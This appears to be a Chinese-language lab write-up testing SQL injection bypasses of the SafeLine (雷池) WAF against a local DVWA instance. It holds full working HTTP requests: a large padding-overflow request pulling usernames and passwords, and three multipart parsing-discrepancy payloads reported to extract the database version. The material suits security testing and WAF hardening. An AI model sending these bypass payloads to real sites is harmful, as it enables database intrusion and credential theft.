









## 测试
### 正常查询
访问雷池入口的SQL注入板块靶场(`http://192.168.43.139:8081/vulnerabilities/sqli/?id=1&Submit=Submit`). 


### 注入点测试
在输入内容进行注入点测试(`http://192.168.43.139:8081/vulnerabilities/sqli/?id=1 and 1=1&Submit=Submit`), 发现触发雷池拦截. 

### 注释可用


***

## 东拼西凑的绕过方法测试

| 绕过方法                       | 状态  | 说明     |
| -------------------------- | --- | ------ |
| 用`&&`/`\|\|`分别代替`AND`/`OR` | ✅成功 | [详情](#1-用分别代替andor) |
| HPP参数污染                    | ❌失败 | [详情](#2-hpp参数污染) |
| 垃圾数据溢出                     | ✅成功 | [详情](#3-垃圾数据溢出) |
| 大小写混用                      | ❌失败 | [详情](#4-大小写混用) |
| 内联注释拆分                     | ❌失败 | [详情](#5-内联注释拆分) |
| `\0`截断                     | ❌失败 | [详情](#6-0截断) |
| 特殊字符拆分                     | ❌失败 | [详情](#7-特殊字符拆分) |
| 条件注释                       | ❌失败 | [详情](#8-条件注释) |

---

### 1. 用`&&`/`||`分别代替`AND`/`OR`




---

### 2. HPP参数污染

使用`http://192.168.43.139:8081/vulnerabilities/sqli/?id=1&id=1 or 1=1&Submit=Submit`可以被成功拦截
>So `id=1&id=-1' UNION SELECT`就更别说了

---

### 3. 垃圾数据溢出

>用一张形象的图就如下 : 
>>雷池的字节解析有一定的上限, 超过这个范围的字节则不再解析. 
>>

该环境下可用的 `payload` : 
```http
POST /vulnerabilities/sqli/?Submit=Submit HTTP/1.1
Host: 192.168.43.139:8081
Content-Type: application/x-www-form-urlencoded
Content-Length: 1150726
Cookie: PHPSESSID=h4c5rum4nu0a5cmiear3k8cpd7; security=low
Connection: keep-alive

pad=aaaaaa...(共 1150000 个 a)&id=1%27%20union%20select%20user%2Cpassword%20from%20users%20--%20
```


---

### 4. 大小写混用

针对利用正则时, 大小写的效果应该会更好, 只要payloaad的内容不会被正则匹配就可以绕过, 而雷池进行的是语义检测, 恰好绕过无效. 

| payload            | res  |
| ------------------ | ---- |
| union select 1,2,3 | ❌403 |
| Union Select 1,2,3 | ❌403 |
| UnIoN SeLeCt 1,2,3 | ❌403 |

---

### 5. 内联注释拆分


| payload                      | res           |
| ---------------------------- | ------------- |
| `UN/**/ION SE/**/LECT 1,2,3` | ❌绕过了, 但语句执行无效 |
| `UN/**/ION /**/SELECT 1,2,3` | ❌绕过了, 但语句执行无效 |
| `UNION /**/ SELECT 1,2,3`    | ❌403 拦截了      |


---

### 6. \0截断

利用bp的Hex在注入语句中加入一个或多个`\0`, 但都以400返回响应. 

查了一下原因PHP 5.3.4+ 已修, 我的环境是 7.0.30

---

### 7. 特殊字符拆分

结果与`内联注释拆分`部分情况类似, 绕过了, 但语句执行无效

| 特殊字符     | payload                  | res           |
| -------- | ------------------------ | ------------- |
| `%0a`换行符 | UN%0aION SE%0aLECT 1,2,3 | ❌绕过了, 但语句执行无效 |
| `%0d`回车符 | UN%0dION SE%0dLECT 1,2,3 | ❌绕过了, 但语句执行无效 |
| `%0c`换页符 | UN%0cION SE%0cLECT 1,2,3 | ❌绕过了, 但语句执行无效 |

---

### 8. 条件注释

WAF 通常将其视为普通注释而忽略，但 MySQL 在版本满足条件时，会将其内部的内容作为SQL代码执行, 但是 雷池 无效, 雷池回解析注释内容
/*!UNION*/ /*!SELECT*/ 1,2,3 ❌

---

## 补充：multipart 解析差异（读文章后尝试的复现）

原文：[雷池免费的waf绕过](https://blog.csdn.net/2303_81755228/article/details/158854119)

**核心思路**：让 WAF 把这一段当成「文件上传」从而**跳过正文检测**，同时让 PHP 把同一段当成「普通 POST 字段」，值落进 `$_POST['id']`。两边对同一串字节得出不同身份判断。

原文用的是 sqli-labs Less-11，字段名 `uname`；本环境是 DVWA，字段名 `id`，且**必须带 `Submit=Submit`**（DVWA 用 `isset($_REQUEST['Submit'])` 判断是否执行查询，缺了包再对也不出数据）。

| 手法                                  | 状态  | 原理                                                    |
| ----------------------------------- | --- | ----------------------------------------------------- |
| 双写 `Content-Disposition`            | ✅   | PHP 取第一条（无 filename→普通字段），WAF 取最后一条（有 filename→当文件）   |
| `filename` 后插 TAB                   | ✅   | WAF 归一化时吃掉 tab 认作文件；PHP 按字面匹配 `filename=` 失败 → 当普通字段  |
| urlencoded 伪装 multipart             | ✅   | PHP 取第一个 Content-Type 按 `&` 切参数；WAF 按 multipart 当文件正文 |
| `\0` 截断 filename                    | ❌   | PHP 5.3.4+ 已修，本环境 7.0.30                              |
| `filename` 后插 `\n`                  | ❌   | 400，传输层就断了                                            |
| 构造假 part                            | ❌   | 403                                                   |
| 空 boundary                          | ❌   | 403                                                   |
| 严格 boundary                         | ❌   | 403                                                   |
| 单双引号混合闭合                            | ❌   | 403                                                   |
| `skip_upload`（`name="id]"` 、21 个文件） | ❌   | 403                                                   |

### 1. 双写 Content-Disposition（CL=331）

```http
POST /vulnerabilities/sqli/?Submit=Submit HTTP/1.1
Host: 192.168.43.139:8081
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,*/*;q=0.8
Referer: http://192.168.43.139:8081/vulnerabilities/sqli/
Cookie: PHPSESSID=pc2ji46q3ighl5sg3frsibrd47; security=low
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXk29dQpLm3
Content-Length: 331
Connection: keep-alive

------WebKitFormBoundaryXk29dQpLm3
Content-Disposition: form-data; name="id"
Content-Disposition: form-data; name="id"; filename="1.txt"
Content-Type: image/png

1' union select 1,version() -- 
------WebKitFormBoundaryXk29dQpLm3
Content-Disposition: form-data; name="Submit"

Submit
------WebKitFormBoundaryXk29dQpLm3--
```

### 2. filename 后插 TAB（CL=289）

`filename` 与 `=` 之间是**一个真实的 TAB 字符**（下面的代码块里已经带上了，肉眼看不出）。用 Hex 视图或从 `poc/h2_filename_tab.http` 拷。

```http
POST /vulnerabilities/sqli/?Submit=Submit HTTP/1.1
Host: 192.168.43.139:8081
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,*/*;q=0.8
Referer: http://192.168.43.139:8081/vulnerabilities/sqli/
Cookie: PHPSESSID=pc2ji46q3ighl5sg3frsibrd47; security=low
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXk29dQpLm3
Content-Length: 289
Connection: keep-alive

------WebKitFormBoundaryXk29dQpLm3
Content-Disposition: form-data; name="id"; filename	="1.txt"
Content-Type: image/png

1' union select 1,version() -- 
------WebKitFormBoundaryXk29dQpLm3
Content-Disposition: form-data; name="Submit"

Submit
------WebKitFormBoundaryXk29dQpLm3--
```

### 3. urlencoded 伪装 multipart（CL=202）

```http
POST /vulnerabilities/sqli/?Submit=Submit HTTP/1.1
Host: 192.168.43.139:8081
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,*/*;q=0.8
Referer: http://192.168.43.139:8081/vulnerabilities/sqli/
Cookie: PHPSESSID=pc2ji46q3ighl5sg3frsibrd47; security=low
Content-Type: application/x-www-form-urlencoded; multipart/form-data;boundary=----WebKitFormBoundaryXk29dQpLm3
Content-Length: 202
Connection: keep-alive

------WebKitFormBoundaryXk29dQpLm3
Content-Disposition: form-data; name="id"; filename="1.txt"
Content-Type: image/png

1 &id=1' union select 1,version() -- &
------WebKitFormBoundaryXk29dQpLm3--
```

### 复现结果
三个包都返回 `Surname: 10.1.26-MariaDB-0+deb9u1`。

